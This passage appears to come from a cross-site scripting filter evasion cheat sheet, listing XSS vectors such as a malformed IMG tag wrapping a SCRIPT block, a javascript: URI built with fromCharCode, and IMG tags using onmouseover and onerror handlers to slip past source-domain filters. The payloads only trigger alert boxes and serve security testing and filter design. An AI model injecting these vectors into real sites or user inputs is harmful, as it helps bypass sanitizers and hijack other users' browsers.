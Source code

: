 Originally found by Begeek (but cleaned up and shortened to work in all
browsers), this XSS vector uses the relaxed rendering engine to create
our XSS vector within an IMG tag that should be encapsulated within
quotes. I assume this was originally meant to correct sloppy coding.
This would make it significantly more difficult to correctly parse apart
an HTML tag:

`<IMG """>`

<SCRIPT>

alert("XSS")

</SCRIPT>

"\>

## fromCharCode

If no quotes of any kind are allowed you can eval() a fromCharCode in
JavaScript to create any XSS vector you need:

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

## Default SRC tag to get past filters that check SRC domain

This will bypass most SRC domain filters. Inserting javascript in an
event method will also apply to any HTML tag type injection that uses
elements like Form, Iframe, Input, Embed etc. It will also allow any
relevant event for the tag type to be substituted like onblur, onclick
giving you an extensive amount of variations for many injections listed
here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

<IMG SRC=# onmouseover="alert('xxs')">

## Default SRC tag by leaving it empty

<IMG SRC= onmouseover="alert('xxs')">

## Default SRC tag by leaving it out entirely

<IMG onmouseover="alert('xxs')">

## On error alert

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
